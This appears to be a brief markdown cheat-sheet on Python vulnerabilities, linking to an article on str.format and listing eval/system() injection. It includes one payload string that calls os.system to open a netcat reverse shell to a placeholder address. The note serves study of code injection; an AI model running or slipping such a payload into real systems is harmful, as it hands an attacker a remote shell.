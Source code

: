 # Python vulnerabilities

- [str format](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- `eval`, execute system()
  - `"__import__('os').system('nc your_ip port -e /bin/sh')"`
